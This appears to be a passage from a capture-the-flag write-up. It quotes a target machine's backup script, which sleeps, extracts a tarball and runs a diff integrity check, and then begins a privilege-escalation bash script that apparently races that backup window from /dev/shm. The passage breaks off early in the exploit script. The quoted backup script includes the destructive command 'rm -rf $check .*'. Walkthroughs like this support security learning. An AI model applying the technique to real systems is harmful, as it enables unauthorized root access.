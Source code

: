 ```
5. Delay 30 seconds 
```
# Added delay to wait for backup to complete if large files get added.
/bin/sleep 30
```

6. Integrity check for file in check directory and backup in temp directory
```
# Test the backup integrity
integrity_chk()
{
    /usr/bin/diff -r $basedir $check$basedir
}

/bin/mkdir $check
/bin/tar -zxvf $tmpfile -C $check
if [[ $(integrity_chk) ]]
then
    # Report errors so the dev can investigate the issue.
    /usr/bin/printf $"$bdr\nIntegrity Check Error in backup last ran :  $(/bin/date)\n$bdr\n$tmpfile\n" >> $errormsg
    integrity_chk >> $errormsg
    exit 2
else
    # Clean up and save archive to the bkpdir.
    /bin/mv $tmpfile $bkpdir/onuma-www-dev.bak
    /bin/rm -rf $check .*
    exit 0
fi
```


### Privilege Escalation

- Using the shell code from 

```
#!/bin/bash

# work out of shm
cd /dev/shm

# set both start and cur equal to any backup file if it's there
start=$(find /var/tmp -maxdepth 1 -type f -name ".*")
cur=$(find /var/tmp -maxdepth 1 -type f -name ".*")
